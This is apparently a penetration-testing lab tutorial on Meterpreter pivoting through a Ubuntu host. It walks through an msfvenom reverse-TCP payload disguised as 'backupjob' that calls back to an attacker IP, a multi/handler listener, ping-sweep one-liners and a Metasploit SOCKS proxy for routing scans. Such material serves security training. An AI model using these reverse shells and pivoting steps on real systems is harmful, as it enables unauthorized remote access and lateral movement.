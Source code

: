 # Meterpreter Tunneling & Port Forwarding

Now let us consider a scenario where we have our Meterpreter shell access on the Ubuntu server (the pivot host), and we want to perform enumeration scans through the pivot host, but we would like to take advantage of the conveniences that Meterpreter sessions bring us. In such cases, we can still create a pivot with our Meterpreter session without relying on SSH port forwarding. We can create a Meterpreter shell for the Ubuntu server with the below command, which will return a shell on our attack host on port `8080`.

### **Creating Payload for Ubuntu Pivot Host**

```shell-session
al1abb@htb[/htb]$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: backupjob
```

Before copying the payload over, we can start a [multi/handler](https://www.rapid7.com/db/modules/exploit/multi/handler/), also known as a Generic Payload Handler.

### **Configuring & Starting the multi/handler**

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
lport => 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8080
```

We can copy the `backupjob` binary file to the Ubuntu pivot host `over SSH` and execute it to gain a Meterpreter session.

### **Executing the Payload on the Pivot Host**

```shell-session
ubuntu@WebServer:~$ ls

backupjob
ubuntu@WebServer:~$ chmod +x backupjob 
ubuntu@WebServer:~$ ./backupjob
```

We need to make sure the Meterpreter session is successfully established upon executing the payload.

### **Meterpreter Session Establishment**

```shell-session
[*] Sending stage (3020772 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:8080 -> 10.129.202.64:39826 ) at 2022-03-03 12:27:43 -0500
meterpreter > pwd

/home/ubuntu
```

We know that the Windows target is on the 172.16.5.0/23 network. So assuming that the firewall on the Windows target is allowing ICMP requests, we would want to perform a ping sweep on this network. We can do that using Meterpreter with the `ping_sweep` module, which will generate the ICMP traffic from the Ubuntu host to the network `172.16.5.0/23`.

### **Ping Sweep (Ubuntu -> Windows)**

```shell-session
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

[*] Performing ping sweep for IP range 172.16.5.0/23
```

We could also perform a ping sweep using a `for loop` directly on a target pivot host that will ping any device in the network range we specify. Here are two helpful ping sweep for loop one-liners we could use for Linux-based and Windows-based pivot hosts.

### **Ping Sweep For Loop on Linux Pivot Hosts**

```bash
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

### **Ping Sweep For Loop Using CMD**

```cmd-session
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

### **Ping Sweep Using PowerShell**

```powershell
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

{% hint style="info" %}
**Note:** It is possible that a ping sweep may not result in successful replies on the first attempt, especially when communicating across networks. This can be caused by the time it takes for a host to build it's arp cache. In these cases, it is good to attempt our ping sweep at least twice to ensure the arp cache gets built.
{% endhint %}

There could be scenarios when a host's firewall blocks ping (ICMP), and the ping won't get us successful replies. In these cases, we can perform a TCP scan on the 172.16.5.0/23 network with Nmap. Instead of using SSH for port forwarding, we can also use Metasploit's post-exploitation routing module `socks_proxy` to configure a local proxy on our attack host. We will configure the SOCKS proxy for `SOCKS version 4a`. This SOCKS configuration will start a listener on port `9050` and route all the traffic received via our Meterpreter session.

### **Configuring MSF's SOCKS Proxy**

```shell-session
msf6 > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
msf6 auxiliary(server/socks_proxy) > options

Module options (auxiliary/server/socks_proxy):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The address to listen on
   SRVPORT  9050             yes       The port to listen on
   VERSION  4a               yes       The SOCKS version to use (Accepted: 4a,
                                        5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server
```

